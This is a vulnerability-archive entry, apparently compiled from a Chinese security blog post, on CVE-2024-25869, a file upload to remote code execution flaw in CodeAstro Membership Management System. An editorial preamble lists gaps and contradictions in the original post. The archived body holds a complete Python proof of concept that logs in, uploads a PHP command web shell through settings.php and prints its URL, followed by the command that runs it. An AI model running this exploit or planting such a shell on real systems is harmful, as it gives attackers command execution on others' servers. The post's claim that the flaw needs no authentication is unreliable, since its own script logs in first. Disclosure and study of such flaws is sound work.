








# CVE-2024-25869

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：CodeAstro Membership Management System
- 文献类型：上传到RCE复现与脚本
- 版本、权限及部署边界：版本未列；脚本先登录取得PHPSESSID，再向settings.php上传logo；需上传目录PHP可执行
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 漏洞描述称未经认证，完整脚本却要求-l/-p并先登录，存在明确权限叙述冲突，不能据正文判匿名
2. 仅收到PHPSESSID不证明登录成功；响应含success不证明文件上传、路径准确或代码可执行
3. 所谓扫描脚本上传持久PHP命令后门且同时修改systemName/currency，属于有状态利用，应明确副作用
4. 硬编码127.0.0.1:8080代理和关闭TLS校验、要求baseURL尾斜杠均未说明；uploads固定路径假设未校验
5. 环境数据库导入步骤多处空代码块，CodeAstro来源可追溯但缺版本/哈希及修复/编号登记来源

### 操作风险

所谓扫描脚本上传持久PHP命令后门且同时修改systemName/currency，属于有状态利用，应明确副作用

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://codeastro.com/membership-management-system-in-php-with-source-code/>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 fgz  AI与网安   2024-04-09 07:00  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
PHP会员管理系统-不受限制的文件上传到RCE漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
Membership Management System是一个  
开源项目  
，地址如下
```
https://codeastro.com/membership-management-system-in-php-with-source-code/
```  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
会员管理系统是一个开源项目，此漏洞的存在使未经身份验证的攻击者能够将.php文件上载到Web服务器，并在运行应用程序的用户的权限下执行代码。  
  
  
  
04  
  
—  
  
环境搭建  
  
  
1. 下载代码，解压后放到小皮面板的网站路径下  
  
```
https://codeastro.com/membership-management-system-in-php-with-source-code/
```  
  
  
  
2.创建数据库  
> 原文此处代码块为空，内容未归档；无法从空块证明或复现所述结果。
```
create database membershiphp;
```  
> 原文此处代码块为空，内容未归档；无法从空块证明或复现所述结果。
> 原文此处代码块为空，内容未归档；无法从空块证明或复现所述结果。
  
  
> 原文此处代码块为空，内容未归档；无法从空块证明或复现所述结果。
> 原文此处代码块为空，内容未归档；无法从空块证明或复现所述结果。
  
  
> 原文此处代码块为空，内容未归档；无法从空块证明或复现所述结果。
  
  
> 原文此处代码块为空，内容未归档；无法从空块证明或复现所述结果。
> 原文此处代码块为空，内容未归档；无法从空块证明或复现所述结果。
  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
  
  
  
  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
漏洞扫描 poc  
  
  
python版本poc文件内容如下  
```

import requests
import argparse
import uuid

def get_session_cookie(base_url, username, password):
    login_url = f"{base_url}index.php"
    
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Origin': base_url,
        'Referer': f'{base_url}index.php',
    }
    
    data = {'email': username, 'password': password, 'login': ''}
    
    proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
    
    session = requests.Session()
    session.post(login_url, headers=headers, data=data, proxies=proxies, verify=False)
    
    return session.cookies.get('PHPSESSID')

def upload_file(base_url, phpsessid):
    upload_url = f"{base_url}settings.php"
    
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Referer': f'{base_url}settings.php',
    }
    
    cookies = {'PHPSESSID': phpsessid}
    
    # Generate a random filename
    random_filename = f"{uuid.uuid4()}.php"
    
    files = {
        'systemName': (None, 'Membership System'),
        'logo': (random_filename, "<?php system($_GET[\"cmd\"]);?>", 'application/x-php'),
        'currency': (None, '$'),
        'updateSettings': (None, ''),
    }
    
    proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
    
    response = requests.post(upload_url, headers=headers, cookies=cookies, files=files, proxies=proxies, verify=False)
    
    if "success" in response.text.lower():
        print(f"File uploaded successfully. Path: {base_url}uploads/{random_filename}?cmd=id")
        return f"{base_url}uploads/{random_filename}"
    else:
        print("File upload failed")
        return None

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Login and Upload Script with Random Filename')
    parser.add_argument('-u', '--url', required=True, help='Base URL including MembershipM-PHP path')
    parser.add_argument('-l', '--login', required=True, help='Username for login')
    parser.add_argument('-p', '--password', required=True, help='Password for login')

    args = parser.parse_args()

    phpsessid = get_session_cookie(args.url, args.login, args.password)
    if phpsessid:
        upload_file(args.url, phpsessid)
    else:
        print("Failed to retrieve PHPSESSID. Cannot proceed with file upload.")

```  
  
运行POC  
```
python3 script.py -u http://localhost/MembershipM-PHP/ -l 'email@mail.com' -p 'password'
```  
  
  
  
  
  
07  
  
—  
  
修复建议  
  
  
开源项目，自行修复。  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
